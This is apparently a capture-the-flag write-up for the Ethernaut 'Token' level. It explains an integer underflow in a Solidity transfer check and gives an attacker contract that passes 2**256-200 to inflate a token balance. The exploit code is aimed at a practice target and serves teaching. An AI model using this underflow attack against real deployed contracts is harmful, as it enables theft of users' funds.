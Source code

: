 # Level 5: [Token](https://ethernaut.openzeppelin.com/level/0xB4802b28895ec64406e45dB504149bfE79A38A57)

## Level objectives:
1. Hack contract by increasing number of tokens owned.

## Analysis (lol)
- The transfer function checks if the msg.sender has enough money to send:
```sol
require(balances[msg.sender] - _value >= 0);
```
- In solidity ^0.6, this wraps/overflows without an error.

## Steps:
- So from a contract we send money to our address. And in the value put a massive number.
- So 0 - massive_number wraps to become something like 2^256 - 1.
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Token {
    function transfer(address _to, uint _value) external returns (bool);
}

contract AttackToken {
    Token victim = Token(0xACf10EfA85d8e13340daDCF32C989e83Cf3274e2);

    function attack(address _to) public {
        victim.transfer(_to, 2**256-200);
    }
}
```

